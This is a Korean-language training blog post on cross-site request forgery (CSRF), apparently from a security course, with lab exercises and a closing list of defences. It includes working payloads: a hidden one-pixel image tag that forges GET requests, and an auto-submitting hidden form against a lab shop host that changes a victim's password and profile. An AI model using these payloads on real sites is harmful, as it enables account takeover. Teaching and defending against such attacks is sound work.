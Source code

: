 ```yaml
---
layout: post
title: CSRF
subtitle: Cross Site Request Forgery
categories: Web
tags: [Web, Injection, Pentest]
---
```


**본 내용 및 실습 환경은 KISEC, 케이쉴드 주니어 교육 과정에 있음을 알려드립니다.**

## 정의

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179171240-596ab43c-2010-4802-8dd4-629fa67356e0.png">
</p>

크로스 사이트 요청 위조(Cross Site Request Forgery, CSRF)는 서버가 실제 서비스 페이지를 통한 정상요청인지 확인하지 않고 처리하는 경우 악의적인 스크립트를 이용하여 다른 사용자의 권한으로 중요기능 실행, 패스워드 변경 등의 공격을 할 수 있는 취약점이다.

즉, 사용자가 자신의 의지와는 무관하게 공격자가 의도한 행위를 특정 웹사이트에 요청하게 하는 공격을 말한다.

* CSRF 공격는 **서버**대상으로 이루어진다.

## XSS와 CSRF의 차이점

* **XSS**는 공격대상이 **클라이언트**이고, 스크립트 실행이 목적이다. 인증된 세션 없이 공격이 가능하다.

* **CSRF**는 공격대상이 **서버**고, 특정 행위(패스워드 변경)가 목적이 된다. 반드시 인증된 사용자를 공격하므로, 인증된 세션이 필요하다는 차이가 있다.

## 실습

### 0. 실습 원리

가로 세로 크기가 1 또는 0인 **img 태그**를 삽입하면 사용자는 해당 이미지가 있는지 알 수가 없다.

HTML 문서를 먼저 주고받은 후에 사용자 측 브라우저에서 HTML 문서를 파싱하다가 **img 태그**를 화면에 출력하기 위해 **src 속성**의 공격자가 의도한 URL 요청을 보내는 원리이다.

### 1. GET 방식

게시물 이동 간에 GET 방식을 이용하여 이동하는 요청이 있다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179174494-dca955e1-775a-447d-9940-ad60efe866d1.png" width = 380>
</p>

* 우리는 게시물에 스크립트를 작성하여 요청을 위조할 것이다.

```html
<img src = "요청을 위조하고자 하는 사이트" width = "1" height = "1" />
```

위 내용을 게시물에 올리고 해당 게시물을 클릭하면 원래의 게시물이 보이는게 아닌 요청을 위조하고자 하는 사이트로 이동하게 될 것이다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179178908-61733b87-f683-4da0-bbab-efbd0fcf226e.png" width = 380>
</p>

* 이것은 게시물을 클릭하고 Burp Suite로 캡쳐한 것이다.
* 게시물에 해당 요청이 아닌 **GET 위조하고자 한 사이트**로 변경 된 것을 알 수 있다.

### 2. POST 방식

이번에는 게시물 클릭 이후 자동으로 공격자가 원하는 패스워드를 변경하는 방식으로 실습을 해볼 것이다.

패스워드 변경할 때 어떤 방식의 패킷이 움직이는 지 볼 것이다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179179788-c52c9684-85eb-4c90-b759-91455772f9ec.png" width = 380>
</p>

* POST 방식의 페이지 요청 값과, 파라미터가 어떻게 이루어지는지 알 수 있다.

```html
<iframe name="ifr"></iframe>
<form target="ifr" name = "frm" method="post"
action="http://10.200.165.9/demoshop/account/profile_edit_ok.asp">
    <input type="hidden" name="user_id" value="test">
    <input type="hidden" name="passwd" value="aa1122">
    <input type="hidden" name="passwd_q" value="%C1%C1%BE%C6%C7%CF%B4%C2+%BB%F6%B1%F2%C0%BA%3F">
    <input type="hidden" name="passwd_a" value="1">
    <input type="hidden" name="Name" value="%C3%BB%C3%BB%C3%BB">
    <input type="hidden" name="birth_yy" value="1911">
    <input type="hidden" name="birth_mm" value="11">
    <input type="hidden" name="birth_dd" value="11">
    <input type="hidden" name="birth_gbn" value="1">
    <input type="hidden" name="ismarry" value="1">
    <input type="hidden" name="address" value="%5B520-150%5D%26%23160%3B%C0%FC%B3%B2%26%23160%3B%B3%AA%C1%D6%BD%C3%26%23160%3B%C3%BB%B5%BF%26%23160%3B+111">
    <input type="hidden" name="tel1_2" value="1111">
    <input type="hidden" name="tel1_3" value="1111">
    <input type="hidden" name="whereTel1" value="1">
    <input type="hidden" name="hp1" value="">
    <input type="hidden" name="hp2" value="">
    <input type="hidden" name="hp3" value="">
    <input type="hidden" name="job" value="%B0%F8%B9%AB%BF%F8">
    <input type="hidden" name="email" value="1111%40naver.com">
    <input type="submit">
</form>
<script>
    document.frm.submit();
</script>
```

* 모든 매개변수와 공격자가 원하는 정보를 수정해서 해당 스크립트를 저장해두면 해당 게시물을 클릭했을 때, 사용자가 원하는 요청을 위조하여 패스워드가 변경되는 것이다.

## 보안 대책

1. 사용자가 요청한 내용이 위조된 요청인지 여부를 사용자 접근권한 정보가 포함된 토큰을 이용하여 세션정보에 포함된 토큰값과 요청에 포함된 토큰값의 비교를 통해 확인한다.
 
2. CAPCHA를 이용하여 추가적인 인증을 한다.
 
3. 사용자의 회원탈퇴, 정보수정에 비밀번호를 한번 더 요청한다.
